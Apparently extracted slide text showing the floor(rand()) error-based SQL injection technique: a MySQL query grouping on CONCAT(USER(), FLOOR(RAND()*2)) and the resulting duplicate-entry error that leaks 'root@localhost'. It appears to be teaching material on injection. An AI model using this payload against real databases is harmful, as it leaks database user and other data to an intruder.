

#
SELECT * 
FROM (
	SELECT COUNT( * ) , CONCAT( USER( ) , FLOOR	( RAND(  ) *2 ) )  as a
	FROM mysql.user
	GROUP BY a
) AS a

ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key 1

2
| root@localhost1 |
| --- |
| root@localhost0 |
| …… |
1